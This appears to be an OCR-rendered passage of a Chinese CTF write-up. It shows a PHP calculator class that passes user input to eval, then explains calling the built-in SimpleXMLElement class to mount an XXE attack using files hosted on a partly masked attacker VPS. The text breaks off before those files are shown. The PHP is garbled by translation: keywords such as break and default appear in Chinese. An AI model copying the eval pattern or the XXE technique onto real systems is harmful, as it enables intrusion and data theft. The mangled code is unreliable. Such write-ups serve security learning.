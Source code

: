     32   
    33   
    34   
    35  
    

|

    
    
       
    class  calc { function __construct__ (  
         ) {  
            计算 ();   
        }  
      
        函数 calc ( $args1 , $method , $args2 ) { $args1 =intval( $args1 ); $args2 =intval( $args2 ); switch ( $method ) { case 'a' : $method = "+" ; 打破;  
              
              
              
                   
                      
                      
      
                case  'b' : $method = "-" ; 打破;  
                      
                      
      
                case  'c' : $method = "*" ; 打破;  
                      
                      
      
                case  'd' : $method = "/" ; 打破; 默认值：die（“无效输入”）；        } $表达式= $ args1。$方法。$args2 ; eval ( "\$r= $Expression ;" ); die ( "计算结果：" . $r );     } } ?>  
                      
                      
                              
                  
                      
      
              
              
              
      
      
            
      
  
---|---  
  
`  
`

`我们点击计算按钮，计算2+2=4，我们观察url处的参数，再结合`calc`计算器类的代码参数模块，args的参数为调用的类的构造方法：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084259.png)`

`所以我们可以通过这种形式调用PHP中的内置类。这里我们通过调用SimpleXMLElement这个内置类来构造XXE。`

`首先，我们在vps（47.xxx.xxx.72）上构造如下evil.xml、send.xml和send.php这三个文件。`

`邪恶.xml：`

`  
`

``
